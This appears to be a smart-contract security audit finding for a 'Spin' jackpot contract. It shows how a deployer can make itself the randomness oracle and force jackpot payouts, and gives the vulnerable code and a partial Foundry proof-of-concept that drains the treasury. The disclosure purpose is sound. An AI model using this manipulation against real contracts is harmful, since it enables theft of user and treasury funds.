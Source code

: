 ### Attack Vector
1. **Malicious Deployment**: Attacker deploys the Spin contract with their own address as `supraRouterAddress`
2. **Oracle Privilege**: This grants the attacker **SUPRA_ROLE**, making them the trusted VRF oracle
3. **Randomness Manipulation**: Attacker can call `handleRandomness()` with arbitrary values
4. **Guaranteed Jackpots**: Setting `rng[0] = 0` guarantees jackpot wins
5. **Treasury Drain**: Attacker can repeatedly win maximum jackpots until treasury is empty
6. **Repeated Exploitation**: Warp time or wait for new weeks to bypass per-week claim limits

### Vulnerable Code Path
```solidity
function handleRandomness(uint256 nonce, uint256[] memory rngList) external onlyRole(SUPRA_ROLE) {
    // ❌ Attacker controls this function due to malicious SUPRA_ROLE assignment
    uint256 randomness = rngList[0];
    uint256 probability = randomness % 1_000_000; // Normalize to 1M range
    
    if (probability < jackpotThreshold) { // rng[0] = 0 guarantees this condition
        // Jackpot logic - attacker can force this by setting rng[0] = 0
        _safeTransferPlume(user, jackpotAmount * 1 ether);
    }
}
```

## Proof of Concept

### Prerequisites
- Treasury funded with >= jackpot amount (100,000 ETH for week 11)
- Tested on Solidity 0.8.25

The PoC demonstrates complete treasury drain with proper VRF mocking:

```solidity
function testPoCCriticalOracleManipulation() public {
    uint256 initialBalance = attacker.balance;
    
    // 1. Attacker deploys with self as supraRouter (gains SUPRA_ROLE)
    spin = new Spin();
    spin.initialize(attacker /*supraRouter*/, address(dt));
    
    // 2. Set up week 11 for maximum 100k ETH jackpot
    spin.setCampaignStartDate(block.timestamp - 11 weeks);
    spin.setEnableSpin(true);
    spin.whitelist(attacker); // Bypass daily cooldown for testing
    
    // 3. Set streak to meet jackpot requirement (week 11 needs 13+ streak)
    // UserData: [jackpotWins, raffleTicketsGained, raffleTicketsBalance, PPGained, plumeTokens, streakCount, lastSpinTimestamp, nothingCounts]
    bytes32 userDataSlot = keccak256(abi.encode(attacker, uint256(2))); // userData mapping at slot 2
    bytes32 streakSlot = bytes32(uint256(userDataSlot) + 5); // streakCount at offset 5
    vm.store(address(spin), streakSlot, bytes32(uint256(13)));
    
    // 4. Mock generateRequest with correct signature (5 parameters)
    vm.mockCall(
        attacker,
        abi.encodeWithSignature("generateRequest(string,uint8,uint256,uint256,address)"),
        abi.encode(uint256(999))
    );
    
    // 5. Execute jackpot spin
    uint256 contractBalanceBefore = address(spin).balance;
    spin.startSpin{value: spin.spinPrice()}(); // Pay 2 ETH fee
```